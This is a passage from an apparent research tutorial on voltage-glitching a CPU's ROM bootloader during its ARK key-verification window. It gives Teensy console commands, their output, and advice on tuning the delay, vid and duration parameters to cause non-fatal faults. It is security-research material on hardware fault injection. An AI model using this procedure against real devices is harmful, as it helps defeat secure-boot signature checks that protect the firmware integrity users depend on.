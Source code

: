 For the following experiments we fix the delay parameter to a value in the middle of the determined ARK verification window:
```
> set glitch delay 4100
```
We still have the original firmware image installed, configured the correct amount of CS cycles to wait, and set the `duration` to zero.
If we carry out an attack now the Teensy will report a successful attempt:
```
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target glitched successfully!
> 
```
This tells us that the ROM bootloader continued to access the flash after the ARK verification.
If we set the glitch's vid to `0xa0` and its duration to a high value, then the Teensy can report failed attempts:
```
> set glitch vid 0xa0
> set glitch duration 4096
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target is broken!
> 
```
**Note:** The vid value `0xa0` worked for all CPUs the we tested.
If you cannot reproduce this last step you should increase the `duration` parameter.
When you need to increase the `duration` parameter so that it is larger than the `delay` parameter, then you will have to decreaese the count of CS pulses that you have to wait for and re-determine the delay parameter window.

When the Teensy reports a failed attempt (for the original firmware), then our attack caused an unrecoverable failure in the ARK verification window.
We want to cause a fault that has some effect on the execution of the program but does not cause an unrecoverable failure.
Our experiments show that, these faults are most likely for `duration` parameters that have a roughly 50 percent change of causing successful/failed attempts on the original firmware image.
